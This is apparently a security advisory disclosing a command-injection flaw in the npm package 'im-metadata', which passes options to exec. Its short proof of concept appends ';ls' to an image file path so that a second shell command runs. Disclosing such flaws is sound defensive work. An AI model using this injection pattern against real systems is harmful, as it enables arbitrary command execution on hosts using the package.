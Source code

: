 # Overview

`im-metadata` is a package to retrieve image metadata as a JSON object using ImageMagick's identify command, this package are vulnerable to Command Injection.

It is possible to inject arbitrary commands as part of the metadata options which is given to the `exec` function.

# Proof of Concept

```
var metadata = require('im-metadata');

metadata('/home/snoopy/Pictures/Screenshots/foo.jpg;ls', {exif: true}, function(error, metadata) {
    if (error) { console.error(error); }
    console.log(metadata);
    console.log(metadata.exif);
  });
```
